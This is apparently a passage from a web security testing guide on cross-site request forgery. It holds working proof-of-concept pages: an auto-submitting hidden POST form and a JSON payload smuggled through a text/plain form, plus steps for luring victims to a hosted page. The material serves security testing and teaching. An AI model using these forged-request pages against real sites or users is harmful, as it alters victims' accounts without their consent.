 Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via JavaScript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1.  Create an HTML page similar to that shown below
2.  Host the HTML on a malicious or third-party site
3.  Send the link for the page to the victim(s) and induce them to click it.

```
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We’ll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

The POST request will be as follow:

```
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```

When this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.
